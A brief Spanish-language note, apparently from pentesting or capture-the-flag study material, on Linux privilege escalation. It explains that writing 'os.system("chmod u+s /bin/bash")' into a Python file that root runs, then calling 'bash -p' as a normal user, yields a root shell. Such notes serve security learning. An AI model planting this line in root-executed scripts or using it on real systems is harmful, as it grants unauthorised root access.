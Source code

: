 Para poder escalar los privilegios sin tener la contraseña root, nos hace falta el poder de modificar un archivo que sea python y que el root lo ejecute.

Siempre es el mismo código:

`import os`
`os.system("chmod u+s /bin/bash")`

Si el usuario root ejecuta este código, y posteriormente nosotros (en usuario normal) ejecutamos un:

`bash -p`

Ya estamos dentro.